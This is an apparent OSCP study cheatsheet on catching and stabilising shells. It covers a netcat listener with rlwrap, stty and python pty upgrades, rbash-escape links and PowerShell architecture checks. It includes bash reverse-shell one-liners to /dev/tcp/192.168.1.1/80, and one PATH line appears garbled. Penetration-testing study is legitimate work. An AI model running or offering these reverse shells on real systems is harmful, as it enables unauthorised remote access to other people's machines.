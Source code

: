```yaml
---
title: Upgrading and Improving Shells
author: linatl
category: "OSCP"
date: "2021-03-08 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```



###### Tricks to improve a crappy shell
```
rlwrap
$ rlwrap -r nc -nvlp 443

Turning terminal echo off:
1
Ctrl + Z in the nc instance to move the shell to the background;
2
$ stty raw echo; fg
For also getting the ability to clear the screen:
3
In the nc shell:
$ export term=XTERM

```

###### Upgrading Shells
```
Upgrade sh to bash using python (2 or 3)
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ python -c 'import pty; pty.spawn("/bin/bash")'

Correcting the $PATH variable for sh / bash
$ export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin/usr/bin:/sbin:/binusr/local/sbin:/usr/local/bin:/usr/sbin:/bin

Upgrading from rbash:
https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/
https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/

Start bash instance:
$ /bin/bash -i >& /dev/tcp/192.168.1.1/80 0>&1
$ /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.1.1/80 0>&1'

```

###### Check Architecture of a PowerShell connection

~|32 bit folder|64 bit folder|
---|---|---
32-bit session | C:\Windows\system32\ | C:\Windows\sysNative
64-bit session | C:\Windows\sysWOW64\ | C:\Windows\system32

```
Check architecture of the host
$ [system.environment]::Is64BitOperatingSystem

Check architecture of powershell environment:
$ [Environment]::Is64BitProcess

alternative to check arch in ps environment:
$ [IntPtr]::Size
The value of this property is 4 in a 32-bit process, and 8 in a 64-bit process.

For example: If you get a shell trough a webserver running in a 32bit process but the host is 64bit, powershell will by default open a 32bit process.
This can be solved by specifically calling powershell with the following path:
C:\Windows\sysNative\WindowsPowerShell\v1.0\powershell.exe

More info:
https://ss64.com/nt/syntax-64bit.html
```
